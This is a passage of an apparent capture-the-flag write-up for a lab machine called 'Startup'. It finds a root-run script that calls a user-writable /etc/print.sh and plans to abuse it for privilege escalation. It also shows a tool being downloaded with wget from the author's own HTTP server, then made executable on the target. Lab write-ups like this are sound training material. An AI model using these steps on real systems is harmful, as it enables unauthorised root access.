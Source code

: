 ```highlight
-rw-r--r-- 1 root   root      1 Nov 21 12:07 startup_list.txt
lennie@startup:~/scripts$ 
```

Two files both owned by root. 

```highlight
lennie@startup:~/scripts$ cat startup_list.txt 

lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ 
```

It appears the planner.sh bash script echos the LIST variable to the startup_list.txt file, however the file is currently blank. Then it runs the script found at /etc/print.sh

```highlight
lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
lennie@startup:~/scripts$ ls -lah /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12 04:53 /etc/print.sh
lennie@startup:~/scripts$ 
```                                             

/etc/print.sh simply echos "Done!" however the user Lennie owns this file so we can edit the script and make it do what we want. Before I do that though I need to be sure that root will run the script regularly. To do that I use a tool called [pspy](https://github.com/DominicBreuker/pspy). 

I use python3 to start a quick http server: *sudo python3 -m http.server 80*. On the Startup machine I download pspy and execute.

```highlight
lennie@startup:~/scripts$ cd /dev/shm
lennie@startup:/dev/shm$ wget http://(VPN IP)/pspy64
--2020-11-21 12:13:38--  http://(VPN IP)/pspy64
Connecting to (VPN IP):80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                      100%[=========================================================================================>]   2.94M  1.60MB/s    in 1.8s

2020-11-21 12:13:40 (1.60 MB/s) - ‘pspy64’ saved [3078592/3078592]

lennie@startup:/dev/shm$ chmod +x pspy64 
lennie@startup:/dev/shm$ 
``` 

pspy will now show all the processes running and the users associated.

![pspy](/assets/images/startup/pspy.png)
